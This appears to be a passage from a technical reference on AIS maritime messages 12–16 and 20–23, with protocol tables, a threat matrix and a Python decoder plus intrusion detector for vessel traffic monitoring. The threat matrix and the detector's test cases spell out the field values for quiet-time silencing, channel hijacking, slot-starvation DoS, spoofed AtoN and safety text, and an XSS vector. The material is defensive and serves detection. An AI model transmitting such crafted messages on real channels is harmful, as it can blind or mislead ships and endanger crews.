| **13** | Safety Acknowledge | `1 slot` | Automatic ($\le 4\text{ s}$ after Rx of Msg 12) | `0.02% – 0.15%` | `< 0.01%` | Co-located 1:1 with Message 12 traffic |
| **14** | Broadcast Safety Text | `1–5 slots` | Event-driven; or every $4\text{ min}$ for AIS-SART/MOB | `0.05% – 0.25%` | `0.01% – 0.05%` | SAR exercises (`"SART TEST"`), VTS warnings, offshore hazards |
| **15** | Interrogation | `1 slot` | On-demand when unknown MMSI enters VTS/ship range | `0.05% – 0.30%` | `< 0.01%` | Coastal VTS boundary entry zones and automated shore networks |
| **16** | Assigned Mode Command | `1 slot` | Every $4\text{–}8\text{ min}$ per assigned MMSI | `0.005% – 0.05%`| `< 0.001%` | Narrow VTS locks, canals, and high-density harbor approaches |
| **20** | **Data Link Management** | `1 slot` | **Every $4\text{–}10\text{ min}$ per Base Station** | **`2.0% – 6.0%`** | **`0.5% – 2.0%`** | **Ubiquitous within $120\text{ NM}$ of any coast with Base Stations/AtoNs** |
| **21** | **Aids-to-Navigation Report**| `2 slots` | **Every $3\text{ min}$ per Real/Synth/Virtual AtoN** | **`2.0% – 5.5%`** | **`0.1% – 0.8%`** | **Fairways, estuaries, wind farms, TSS lanes, and fishing-buoy zones** |
| **22** | Channel Management | `1 slot` | Every $6\text{–}12\text{ min}$ in regional channel zones | `0.001% – 0.03%`| `< 0.001%` | St. Lawrence Seaway, US inland rivers, oil terminal berths |
| **23** | Group Assignment Command | `1 slot` | Periodic ($5\text{–}10\text{ min}$) where active | `0.001% – 0.02%`| `< 0.001%` | Congested Class B marinas, European inland waterways |

> [!IMPORTANT]
> **Why Message 21 Drop Rates Spike in Satellite AIS:**
> Although **Message 21** represents `2.0%–5.5%` of coastal terrestrial AIS traffic, its share drops sharply in LEO satellite feeds (`0.1%–0.8%`). Because Message 21 is a **2-slot message (`272–360 bits`, occupying $53.3\text{ ms}$)** and Real floating AtoNs transmit at lower antenna elevations ($3\text{–}6\text{ m}$ above the waves, often at reduced $2\text{–}5\text{ W}$ solar-conserving power), 2-slot Message 21 bursts suffer severe co-channel collision rates across a satellite's $5{,}000\text{ km}$ orbital footprint unless decoded from high-power shore Base Stations (Synthetic/Virtual AtoNs).

---

## 4. Hardware, Standards, & Software Ecosystem

### 35.5 Complete Software Support Matrix

Support for decoding and rendering these nine messages varies dramatically between reference protocol libraries (`libais`, `gpsd`, `pyais`), shipboard NMEA 2000 CAN-bus gateways, and consumer chartplotters:

#### Table 35.12: Comprehensive Software, Library, and Hardware Support Matrix (Messages 12–16 and 20–23)

| Message ID & Name | `libais` C++ Class (`src/libais/`) | `gpsd` (`driver_ais.c`) | `pyais` (Python) | `AIS-catcher` (C++) | Rust (`nmea-parser` / `ais`) | NMEA 2000 PGN (`IEC 61162-3`) | OpenCPN / Signal K | SOLAS ECDIS (`IEC 61174`) & VTS |
|---|---|---|---|---|---|---|---|---|
| **Msg 12** (*Addressed Safety*) | **`Ais12`** (`ais12.cpp`) | Full (`type 12`) | Full (`MessageType12`) | Full | Full | **`PGN 129801`** (*AIS Addressed Safety Related Message*) | Pop-up alert & message log | Mandatory MKD/ECDIS alarm & inbox |
| **Msg 13** (*Safety Ack*) | **`Ais7_13`** (`ais7_13.cpp`) | Full (`type 13`, 1–4 acks) | Full (`MessageType13`) | Full | Full | **`PGN 129803`** (*AIS Safety Related Broadcast Ack*) | Logged in comm state | Updates Msg 12 TX status (`$AIABK`) |
| **Msg 14** (*Broadcast Safety*) | **`Ais14`** (`ais14.cpp`) | Full (`type 14`) | Full (`MessageType14`) | Full | Full | **`PGN 129802`** (*AIS Safety Related Broadcast Message*) | Pop-up alert; SART icon for `97x` | Mandatory alarm; S-52 `⊕` for `97x` |
| **Msg 15** (*Interrogation*) | **`Ais15`** (`ais15.cpp`, `88–160b`) | Full (`type 15`) | Full (`MessageType15`) | Full | Partial (some fail on `110b`) | **`PGN 129805`** (*AIS Data Link Management* / NMEA 0183 `$AIACA`) | Decoded in Signal K; ignored by GUI | Handled silently by transponder MCU |
| **Msg 16** (*Assigned Mode*) | **`Ais16`** (`ais16.cpp`, `96/144b`) | Full (`type 16`) | Full (`MessageType16`) | Full | Full | **`PGN 129804`** (*AIS Assignment Mode Command*) | Ignored by chart GUI | Handled by transponder; VTS TXs |
| **Msg 20** (*Data Link Mgmt*) | **`Ais20`** (`ais20.cpp`, 1–4 blocks) | Full (`type 20`) | Full (`MessageType20`) | Full | Full | **`PGN 129805`** (*AIS Data Link Management Message*) | Ignored by chart GUI | Transponder reserves FATDMA slots |
| **Msg 21** (*AtoN Report*) | **`Ais21`** (`ais21.cpp`, `272–360b`) | Full (`type 21` + `name_ext`) | Full (`MessageType21`) | Full (Web GUI AtoN layer) | Full | **`PGN 129041`** (*AIS Aids to Navigation [AtoN] Report*) | Full S-52 Real & Virtual AtoN icons + Off-Pos red alarm | Mandatory S-52 diamond (`Real` vs `V-AtoN` + Off-Pos alert) |
| **Msg 22** (*Channel Mgmt*) | **`Ais22`** (`ais22.cpp`, BBox & Addr) | Full (`type 22` polymorphic) | Full (`MessageType22`) | Full | Full | **`PGN 129806`** (*AIS Channel Management*) / `$AIACA` | Ignored by chart GUI | Retunes transponder VHF channels |
| **Msg 23** (*Group Assignment*) | **`Ais23`** (`ais23.cpp`, `160b`) | Full (`type 23`) | Full (`MessageType23`) | Full | Full | **`PGN 129807`** (*AIS Group Assignment Command*) | Ignored by chart GUI | Enforces interval or `Quiet Time` |

---

## 5. Security, Adversarial Abuse, & Failure Modes

Table 35.13 synthesizes the principal adversarial attack vectors and non-malicious failure modes across Messages 12–16 and 20–23, alongside actionable defensive countermeasures for shipboard transceivers, VTS centers, and shore ingestion pipelines:

#### Table 35.13: Forensic Threat & Failure Matrix for Safety, AtoN, and VDL Control Messages

| Attack / Failure Vector | Exploited Message & Bit Fields | Operational Impact on Bridge / VDL | Technical Detection & Mitigation Strategy |
|---|---|---|---|
| **VDL Quiet-Time Blackout DoS** | **Message 23:** `station_type = 0/2/5`, `type_and_cargo = 0`, **`quiet = 15`** (`bits[150:154]`) | Silences all matching transponders inside `NE/SW` bounding box for $15\text{ minutes}$ per burst | Alert whenever `quiet > 0` in Msg 23; verify RF RSSI/AoA and cross-check against authorized VTS schedule |
| **Frequency-Hopping / TX-Disable Hijack** | **Message 22:** `addressed = 0`, arbitrary `chan_a` / `chan_b` (`bits[40:64]`), or invalid channel with `txrx_mode = 1/2` | Retunes all transponders in bounding box off AIS 1/2 ($161.975 / 162.025\text{ MHz}$) or disables TX | Alert on any Msg 22 where `(chan_a, chan_b) != (2087, 2088)` outside published national channel-management polygons (e.g., Seaway) |
| **FATDMA Slot-Starvation Jamming** | **Message 20:** 4 blocks with `num_slots = 5`, `incr = 5`, `timeout = 7` | Reserves $100\%$ of the $2{,}250\text{ slots}$ per minute so SOTDMA/CSTDMA ships cannot transmit | Flag any Msg 20 reserving $>15\%$ of frame capacity ($>337\text{ slots}$) or originating from an unknown Base Station MMSI |
| **Assigned-Mode Rate Throttling** | **Message 16:** `inc_a = 0`, `offset_a = 1` (`bits[70:92]`) | Forces target vessel's reporting rate down to 1 report per $10\text{ minutes}$ ($600\text{ s}$) | Alert when Msg 16 sets `inc == 0` and `offset < 6` ($\Delta t > 100\text{ s}$) for an underway vessel (`SOG > 3 kts`) |
| **Fishing-Buoy AtoN Diamond Clutter** | **Message 21:** Uncertified net pingers spoofing `message_id = 21` with `"NET"` / `"%"` names or non-`99` MMSIs | Floods ECDIS with hundreds of fake AtoN hazard diamonds and triggers guard-zone alarms | Filter Msg 21 frames where `not (990000000 <= mmsi <= 999999999)` or where `name` matches battery/net regexes (`\b\d{1,3}%`, `NET`) |
| **Coast Guard Eviction Phishing & Web XSS** | **Messages 12 & 14:** Spoofed `"USCG WARNING"` or `<SCRIPT>` in `text` | Tricks watchstanders into altering course; executes JavaScript in unescaped web viewers | HTML-escape all 6-bit ASCII text fields (`html.escape()`); cross-verify sender MMSI against physical RF direction finding |

---

## 6. Practical Engineering / Code Walkthrough

The following self-contained, runnable Python 3 script implements:
1. **Bit-level encoders and decoders** for **Message 12**, **Message 13**, **Message 14**, **Message 15** (`88, 110, 112, 160` bits), **Message 16** (`96` and `144` bits), **Message 20** (expanding all reserved FATDMA slot indices across the 2,250-slot frame), **Message 21** (including variable-length `Name Extension` and byte-alignment padding), **Message 22** (handling both `Addressed = 0` geographic bounding box and `Addressed = 1` individual MMSI modes), and **Message 23**.
2. **A Real-Time VDL Intrusion Detection System (`VDLControlIDS`)** that inspects decoded messages and raises structured security alerts for **Message 20 FATDMA slot-starvation attacks**, **Message 22 frequency-hopping hijacks**, **Message 23 `Quiet Time` silencing**, **Message 16 rate-throttling**, and **counterfeit fishing-buoy Message 21 spoofing**.

```python
#!/usr/bin/env python3
"""Forensic Decoder & VDL Intrusion Detection System (IDS) for AIS Messages

12, 13, 14, 15, 16, 20, 21, 22, and 23 (ITU-R M.1371-5).
"""

from dataclasses import dataclass
import re
from typing import Any, Dict, List, Set, Tuple

AIS_6BIT_CHARS = (
    "@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_ !\"#$%&'()*+,-./0123456789:;<=>?"
)


def int_to_bits(val: int, width: int, signed: bool = False) -> str:
  if signed and val < 0:
    val = (1 << width) + val
  return format(val & ((1 << width) - 1), f"0{width}b")


def bits_to_uint(bits: str, start: int, end: int) -> int:
  return int(bits[start:end], 2)


def bits_to_int(bits: str, start: int, end: int) -> int:
  width = end - start
  val = int(bits[start:end], 2)
  if val & (1 << (width - 1)):
    val -= 1 << width
  return val


def encode_6bit_ascii(text: str, num_chars: int) -> str:
  text = text.upper()[:num_chars].ljust(num_chars, "@")
  return "".join(
      int_to_bits(AIS_6BIT_CHARS.index(c) if c in AIS_6BIT_CHARS else 0, 6)
      for c in text
  )


def decode_6bit_ascii(bits: str, start: int, end: int) -> str:
  num_chars = (end - start) // 6
  chars = [
      AIS_6BIT_CHARS[bits_to_uint(bits, start + i * 6, start + (i + 1) * 6)]
      for i in range(num_chars)
  ]
  return "".join(chars).split("@")[0].rstrip()


def decode_safety_and_dlc(bits: str, rx_slot: int = 0) -> Dict[str, Any]:
  """Decodes AIS Messages 12, 13, 14, 15, 16, 20, 21, 22, and 23 from a binary bitstring."""
  n = len(bits)
  msg_id = bits_to_uint(bits, 0, 6)
  repeat = bits_to_uint(bits, 6, 8)
  mmsi = bits_to_uint(bits, 8, 38)
  out: Dict[str, Any] = {
      "message_id": msg_id,
      "repeat": repeat,
      "mmsi": mmsi,
      "bit_len": n,
  }

  if msg_id == 12:
    out["seq_num"] = bits_to_uint(bits, 38, 40)
    out["dest_mmsi"] = bits_to_uint(bits, 40, 70)
    out["retransmit"] = bool(bits_to_uint(bits, 70, 71))
    out["text"] = decode_6bit_ascii(bits, 72, n)
    out["trailing_pad_bits"] = (n - 72) % 6
  elif msg_id in (7, 13):
    acks = []
    for offset in range(40, min(n, 168), 32):
      if offset + 32 <= n:
        acks.append({
            "dest_mmsi": bits_to_uint(bits, offset, offset + 30),
            "seq_num": bits_to_uint(bits, offset + 30, offset + 32),
        })
    out["acks"] = acks
  elif msg_id == 14:
    out["text"] = decode_6bit_ascii(bits, 40, n)
    out["trailing_pad_bits"] = (n - 40) % 6
  elif msg_id == 15:
    out["mmsi_1"] = bits_to_uint(bits, 40, 70)
    out["msg_1_1"] = bits_to_uint(bits, 70, 76)
    out["slot_offset_1_1"] = bits_to_uint(bits, 76, 88)
    if n >= 108:
      out["msg_1_2"] = bits_to_uint(bits, 90, 96)
      out["slot_offset_1_2"] = bits_to_uint(bits, 96, 108)
    if n >= 160:
      out["mmsi_2"] = bits_to_uint(bits, 110, 140)
      out["msg_2_1"] = bits_to_uint(bits, 140, 146)
      out["slot_offset_2_1"] = bits_to_uint(bits, 146, 158)
  elif msg_id == 16:
    out["dest_mmsi_a"] = bits_to_uint(bits, 40, 70)
    out["offset_a"] = bits_to_uint(bits, 70, 82)
    out["inc_a"] = bits_to_uint(bits, 82, 92)
    if n >= 144:  # Note: No 4-bit spare at bit 92 in 144-bit mode!
      out["dest_mmsi_b"] = bits_to_uint(bits, 92, 122)
      out["offset_b"] = bits_to_uint(bits, 122, 134)
      out["inc_b"] = bits_to_uint(bits, 134, 144)
  elif msg_id == 20:
    blocks = []
    reserved_slots: Set[int] = set()
    for b_idx, offset in enumerate(range(40, min(n, 160), 30), start=1):
      if offset + 30 <= n:
        off = bits_to_uint(bits, offset, offset + 12)
        num_s = bits_to_uint(bits, offset + 12, offset + 16)
        t_out = bits_to_uint(bits, offset + 16, offset + 19)
        incr = bits_to_uint(bits, offset + 19, offset + 30)
        if num_s > 0:
          blocks.append({
              "block": b_idx,
              "offset": off,
              "num_slots": num_s,
              "timeout_min": t_out,
              "increment": incr,
          })
          steps = ((2249 - off) // incr + 1) if incr > 0 else 1
          for m in range(steps):
            base_s = (rx_slot + off + m * incr) % 2250
            for j in range(num_s):
              reserved_slots.add((base_s + j) % 2250)
    out["reservations"] = blocks
    out["total_reserved_slots"] = len(reserved_slots)
    out["frame_share_pct"] = round(100.0 * len(reserved_slots) / 2250.0, 2)
  elif msg_id == 21:
    out["aton_type"] = bits_to_uint(bits, 38, 43)
    base_name = decode_6bit_ascii(bits, 43, 163)
    out["position_accuracy"] = bool(bits_to_uint(bits, 163, 164))
    out["lon"] = round(bits_to_int(bits, 164, 192) / 600000.0, 6)
    out["lat"] = round(bits_to_int(bits, 192, 219) / 600000.0, 6)
    out["dims_abcd"] = (
        bits_to_uint(bits, 219, 228),
        bits_to_uint(bits, 228, 237),
        bits_to_uint(bits, 237, 243),
        bits_to_uint(bits, 243, 249),
    )
    out["epfd"] = bits_to_uint(bits, 249, 253)
    out["timestamp"] = bits_to_uint(bits, 253, 259)
    out["off_position"] = bool(bits_to_uint(bits, 259, 260))
    out["aton_status"] = bits_to_uint(bits, 260, 268)
    out["raim"] = bool(bits_to_uint(bits, 268, 269))
    out["virtual_aton"] = bool(bits_to_uint(bits, 269, 270))
    out["assigned"] = bool(bits_to_uint(bits, 270, 271))
    name_ext = decode_6bit_ascii(bits, 272, min(n, 356)) if n >= 278 else ""
    out["name"] = base_name + name_ext
    out["name_ext"] = name_ext
  elif msg_id == 22:
    out["chan_a"] = bits_to_uint(bits, 40, 52)
    out["chan_b"] = bits_to_uint(bits, 52, 64)
    out["txrx_mode"] = bits_to_uint(bits, 64, 68)
    out["power_low"] = bool(bits_to_uint(bits, 68, 69))
    addressed = bool(bits_to_uint(bits, 139, 140))
    out["addressed"] = addressed
    if not addressed:
      out["ne_lon"] = round(bits_to_int(bits, 69, 87) / 600.0, 4)
      out["ne_lat"] = round(bits_to_int(bits, 87, 104) / 600.0, 4)
      out["sw_lon"] = round(bits_to_int(bits, 104, 122) / 600.0, 4)
      out["sw_lat"] = round(bits_to_int(bits, 122, 139) / 600.0, 4)
    else:
      out["dest_mmsi_1"] = bits_to_uint(bits, 69, 99)
      out["dest_mmsi_2"] = bits_to_uint(bits, 104, 134)
    out["band_a"] = bool(bits_to_uint(bits, 140, 141))
    out["band_b"] = bool(bits_to_uint(bits, 141, 142))
    out["zone_size_nm"] = bits_to_uint(bits, 142, 145) + 1
  elif msg_id == 23:
    out["ne_lon"] = round(bits_to_int(bits, 40, 58) / 600.0, 4)
    out["ne_lat"] = round(bits_to_int(bits, 58, 75) / 600.0, 4)
    out["sw_lon"] = round(bits_to_int(bits, 75, 93) / 600.0, 4)
    out["sw_lat"] = round(bits_to_int(bits, 93, 110) / 600.0, 4)
    out["station_type"] = bits_to_uint(bits, 110, 114)
    out["ship_type"] = bits_to_uint(bits, 114, 122)
    out["txrx_mode"] = bits_to_uint(bits, 144, 146)
    out["interval_code"] = bits_to_uint(bits, 146, 150)
    out["quiet_time_min"] = bits_to_uint(bits, 150, 154)
  return out


class VDLControlIDS:
  """Intrusion Detection System for AIS Safety, AtoN, and VDL Control Messages."""

  BUOY_SPAM_RE = re.compile(r"(\b\d{1,3}%|\bNET\b|\d+\.\d+V)", re.IGNORECASE)

  def inspect(self, msg: Dict[str, Any]) -> List[str]:
    alerts: List[str] = []
    mid = msg["message_id"]
    mmsi = msg["mmsi"]

    if mid == 20:
      if not (1000000 <= mmsi <= 9999999):
        alerts.append(
            f"[CRITICAL] Msg 20 from non-Base Station MMSI {mmsi:09d}"
        )
      if msg["frame_share_pct"] > 20.0:
        alerts.append(
            "[CRITICAL] Msg 20 FATDMA Slot-Starvation Attack:"
            f" {msg['total_reserved_slots']}/2250 slots"
            f" ({msg['frame_share_pct']}%) reserved!"
        )
    elif mid == 21:
      if not (990000000 <= mmsi <= 999999999):
        alerts.append(
            f"[HIGH] Counterfeit Msg 21 AtoN: MMSI {mmsi:09d} lacks 99MIDxxxx"
            " prefix (likely fishing buoy)"
        )
      if self.BUOY_SPAM_RE.search(msg["name"]):
        alerts.append(
            f"[HIGH] Fishing-Gear Buoy Squatting on Msg 21: name='{msg['name']}'"
        )
      if msg["off_position"] and msg["timestamp"] <= 59:
        alerts.append(
            f"[OPERATIONAL] Real AtoN {mmsi:09d} ('{msg['name']}') is OFF"
            " POSITION / ADRIFT!"
        )
    elif mid == 22:
      if (msg["chan_a"], msg["chan_b"]) != (2087, 2088):
        alerts.append(
            "[CRITICAL] Msg 22 Frequency Handover: ChA="
            f"{msg['chan_a']}, ChB={msg['chan_b']}, Mode={msg['txrx_mode']} "
            f"(Verify authorized regional zone vs. RF hijack!)"
        )
    elif mid == 23:
      if msg["quiet_time_min"] > 0:
        alerts.append(
            "[CRITICAL] Msg 23 Quiet-Time DoS Command: Silencing"
            f" station_type={msg['station_type']} for"
            f" {msg['quiet_time_min']} min!"
        )
    elif mid in (12, 14):
      if any(ch in msg["text"] for ch in ("<", ">", "SCRIPT")):
        alerts.append(
            f"[HIGH] Potential XSS/Injection payload in Msg {mid} text:"
            f" '{msg['text']}'"
        )
    return alerts


if __name__ == "__main__":
  ids = VDLControlIDS()

  # 1. Message 12 (Addressed Safety Text) & Message 14 (AIS-SART Broadcast)
  m12_bits = "".join([
      int_to_bits(12, 6),
      "00",
      int_to_bits(3669999, 30),
      int_to_bits(2, 2),
      int_to_bits(367123456, 30),
      "00",
      encode_6bit_ascii("VTS WARNING: SHOAL AHEAD", 24),
  ])
  m14_bits = "".join([
      int_to_bits(14, 6),
      "00",
      int_to_bits(970012345, 30),
      "00",
      encode_6bit_ascii("SART ACTIVE", 11),
      "00",
  ])
  print("Decoded Msg 12:", decode_safety_and_dlc(m12_bits))
  print("Decoded Msg 14 (AIS-SART):", decode_safety_and_dlc(m14_bits))

  # 2. Message 21: Real Wind Turbine AtoN with 10-char Name Extension + 4-bit pad (336 bits)
  m21_bits = "".join([
      int_to_bits(21, 6),
      "00",
      int_to_bits(992351001, 30),
      int_to_bits(3, 5),
      encode_6bit_ascii("DOGGER BANK TURBINE ", 20),
      "1",
      int_to_bits(int(1.95 * 600000), 28, True),
      int_to_bits(int(54.75 * 600000), 27, True),
      int_to_bits(15, 9),
      int_to_bits(15, 9),
      int_to_bits(15, 6),
      int_to_bits(15, 6),
      int_to_bits(7, 4),
      int_to_bits(12, 6),
      "0",
      int_to_bits(0b00010010, 8),
      "1000",
      encode_6bit_ascii("ALPHA-NW01", 10),
      "0000",
  ])
  print("Decoded Msg 21 (336-bit Extended):", decode_safety_and_dlc(m21_bits))

  # 3. Message 22: Addressed Mode (Tanker Terminal Low-Power 1W Handover)
  m22_addr = "".join([
      int_to_bits(22, 6),
      "00",
      int_to_bits(3669999, 30),
      "00",
      int_to_bits(2087, 12),
      int_to_bits(2088, 12),
      int_to_bits(0, 4),
      "1",
      int_to_bits(367123456, 30),
      "00000",
      int_to_bits(0, 30),
      "00000",
      "1",
      "00",
      int_to_bits(4, 3),
      int_to_bits(0, 23),
  ])
  print("Decoded Msg 22 (Addressed 1W Mode):", decode_safety_and_dlc(m22_addr))

  # 4. Adversarial Suite: Msg 20 Starvation, Msg 21 Buoy Spoof, Msg 22 BBox Hijack, Msg 23 Quiet
  m20_dos = "".join([
      int_to_bits(20, 6),
      "00",
      int_to_bits(3669999, 30),
      "00",
      int_to_bits(1, 12),
      int_to_bits(5, 4),
      int_to_bits(7, 3),
      int_to_bits(5, 11),
      "00",
  ])
  m21_buoy = "".join([
      int_to_bits(21, 6),
      "00",
      int_to_bits(412888999, 30),
      int_to_bits(0, 5),
      encode_6bit_ascii("NET 04 92% 12.4V    ", 20),
      "0",
      int_to_bits(int(122.5 * 600000), 28, True),
      int_to_bits(int(30.1 * 600000), 27, True),
      int_to_bits(0, 30),
      int_to_bits(1, 4),
      int_to_bits(60, 6),
      "0",
      int_to_bits(0, 8),
      "0000",
  ])
  m22_hijack = "".join([
      int_to_bits(22, 6),
      "00",
      int_to_bits(3669999, 30),
      "00",
      int_to_bits(2071, 12),
      int_to_bits(2072, 12),
      int_to_bits(0, 4),
      "0",
      int_to_bits(-73 * 600, 18, True),
      int_to_bits(41 * 600, 17, True),
      int_to_bits(-75 * 600, 18, True),
      int_to_bits(40 * 600, 17, True),
      "000",
      int_to_bits(4, 3),
      int_to_bits(0, 23),
  ])
  m23_quiet = "".join([
      int_to_bits(23, 6),
      "00",
      int_to_bits(3669999, 30),
      "00",
      int_to_bits(104 * 600, 18, True),
      int_to_bits(2 * 600, 17, True),
      int_to_bits(103 * 600, 18, True),
      int_to_bits(1 * 600, 17, True),
      int_to_bits(0, 40),
      int_to_bits(15, 4),
      int_to_bits(0, 6),
  ])

  print("\n--- VDL Intrusion Detection System (IDS) Alerts ---")
  for test_bits in (m20_dos, m21_buoy, m22_hijack, m23_quiet):
    decoded = decode_safety_and_dlc(test_bits)
    for alert in ids.inspect(decoded):
      print(f"Msg {decoded['message_id']} -> {alert}")
```

Running this script produces:

```text
Decoded Msg 12: {'message_id': 12, 'repeat': 0, 'mmsi': 3669999, 'bit_len': 216, 'seq_num': 2, 'dest_mmsi': 367123456, 'retransmit': False, 'text': 'VTS WARNING: SHOAL AHEAD', 'trailing_pad_bits': 0}
Decoded Msg 14 (AIS-SART): {'message_id': 14, 'repeat': 0, 'mmsi': 970012345, 'bit_len': 108, 'text': 'SART ACTIVE', 'trailing_pad_bits': 2}
Decoded Msg 21 (336-bit Extended): {'message_id': 21, 'repeat': 0, 'mmsi': 992351001, 'bit_len': 336, 'aton_type': 3, 'position_accuracy': True, 'lon': 1.95, 'lat': 54.75, 'dims_abcd': (15, 15, 15, 15), 'epfd': 7, 'timestamp': 12, 'off_position': False, 'aton_status': 18, 'raim': True, 'virtual_aton': False, 'assigned': False, 'name': 'DOGGER BANK TURBINE ALPHA-NW01', 'name_ext': 'ALPHA-NW01'}
Decoded Msg 22 (Addressed 1W Mode): {'message_id': 22, 'repeat': 0, 'mmsi': 3669999, 'bit_len': 168, 'chan_a': 2087, 'chan_b': 2088, 'txrx_mode': 0, 'power_low': True, 'addressed': True, 'dest_mmsi_1': 367123456, 'dest_mmsi_2': 0, 'band_a': False, 'band_b': False, 'zone_size_nm': 5}

--- VDL Intrusion Detection System (IDS) Alerts ---
Msg 20 -> [CRITICAL] Msg 20 FATDMA Slot-Starvation Attack: 2250/2250 slots (100.0%) reserved!
Msg 21 -> [HIGH] Counterfeit Msg 21 AtoN: MMSI 412888999 lacks 99MIDxxxx prefix (likely fishing buoy)
Msg 21 -> [HIGH] Fishing-Gear Buoy Squatting on Msg 21: name='NET 04 92% 12.4V'
Msg 22 -> [CRITICAL] Msg 22 Frequency Handover: ChA=2071, ChB=2072, Mode=0 (Verify authorized regional zone vs. RF hijack!)
Msg 23 -> [CRITICAL] Msg 23 Quiet-Time DoS Command: Silencing station_type=0 for 15 min!
```

---

## 7. Key Takeaways & Operational Checklist

1. **Message 13 Is a Link-Layer Ack, Not a Human Read-Receipt:** When a transponder transmits **Message 12**, the recipient's hardware automatically responds with **Message 13** (`libais` `Ais7_13`) within $4\text{ seconds}$ (retrying up to 3 times on timeout). Mariners must never assume a Message 13 `DELIVERED` status means the target bridge officer has read or agreed to a maneuvering proposal.
2. **Enforce Variable Bit-Length & Padding Tolerance:** Decoders for **Messages 12, 14, and 21** must floor-divide remaining payload bits by 6 (`(bit_len - header) // 6`) and ignore `0–6` trailing byte-alignment spare bits. Decoders for **Message 15** must accept `88, 110, 112, and 160` bits, and **Message 16** decoders must account for the 4-bit shift at `bit[92]` between `96-bit` (1-station) and `144-bit` (2-station) frames.
3. **Know the Four IALA AtoN Types (`Message 21`):** Always inspect `Virtual Aid Flag` (`bit[269]`), `Off-Position Indicator` (`bit[259]`, valid only when `Time Stamp <= 59`), and `Time Stamp` (`bits[253:259]`). Never mistake a **Synthetic Predicted AtoN** (`Virtual = 0`, `Time Stamp = 61/63`) for a live GPS-monitored buoy.
4. **Monitor VDL Control Messages (`16, 20, 22, 23`) in Shore IDS Pipelines:** Because consumer chartplotters silently discard Messages 16, 20, 22, and 23, shore VTS networks and vessel cybersecurity monitors must actively inspect these four messages to detect FATDMA slot-exhaustion (`Msg 20`), unauthorized frequency handovers (`Msg 22`), and `Quiet Time` silencing attacks (`Msg 23`).

---

## 8. Cited References & Primary Sources

1. **ITU-R Recommendation M.1371-5 (2014):** *Technical characteristics for an automatic identification system using time division multiple access in the VHF maritime mobile band*, Annex 2 (STDMA/FATDMA/ITDMA/RATDMA link management) & Annex 8 (Messages 12–16 and 20–23), International Telecommunication Union, Geneva. [https://www.itu.int/rec/R-REC-M.1371-5-201402-I/en](https://www.itu.int/rec/R-REC-M.1371-5-201402-I/en)
2. **IALA Recommendation A-126 (2011 / Edition 1.5):** *The Use of the Automatic Identification System (AIS) in Marine Aids to Navigation Services*, International Association of Marine Aids to Navigation and Lighthouse Authorities, Saint-Germain-en-Laye.
3. **IALA Guideline 1081:** *Virtual Aids to Navigation*, International Association of Marine Aids to Navigation and Lighthouse Authorities.
4. **IEC 62320-1:2015 & IEC 62320-2:2016:** *Maritime navigation and radiocommunication equipment and systems — Automatic identification system (AIS) — Part 1: AIS Base Stations; Part 2: AIS Aids to Navigation (AtoN) equipment*, International Electrotechnical Commission, Geneva.
5. **IEC 61097-14:2010:** *Global maritime distress and safety system (GMDSS) — Part 14: AIS search and rescue transmitter (AIS-SART) — Operational and performance requirements, methods of testing and required test results*, IEC.
6. **Balduzzi, M., Pasta, A., & Wilhoit, K. (2014):** "A Security Evaluation of AIS Automated Identification System," *Proceedings of the 30th Annual Computer Security Applications Conference (ACSAC '14)*, ACM, pp. 436–445. DOI: `10.1145/2664243.2664257`.
7. **Schwehr, K. (2010–2025):** *`libais`: C++/Python library for decoding maritime Automatic Identification System messages* (`src/libais/ais7_13.cpp`, `ais12.cpp`, `ais14.cpp`, `ais15.cpp`, `ais16.cpp`, `ais20.cpp`, `ais21.cpp`, `ais22.cpp`, `ais23.cpp`). [https://github.com/schwehr/libais](https://github.com/schwehr/libais)
8. **Raymond, E. S. (2006–2025):** *AIVDM/AIVDO Protocol Decoding (`AIVDM.txt`)*, The GPSD Project. [https://gpsd.gitlab.io/gpsd/AIVDM.html](https://gpsd.gitlab.io/gpsd/AIVDM.html)
9. **BEAmer (Bureau d'Enquêtes sur les Événements de Mer) (2004):** *Report of the Technical Inquiry into the Sinking of the Ro-Ro Car Carrier Tricolor on December 14, 2002*, Ministry of Equipment, Transport, Housing, Tourism and the Sea, Paris.
10. **ITU-R Recommendation M.2135-1 (2022):** *Technical characteristics of autonomous maritime radio devices operating in the frequency band 156–162.05 MHz*, International Telecommunication Union, Geneva.
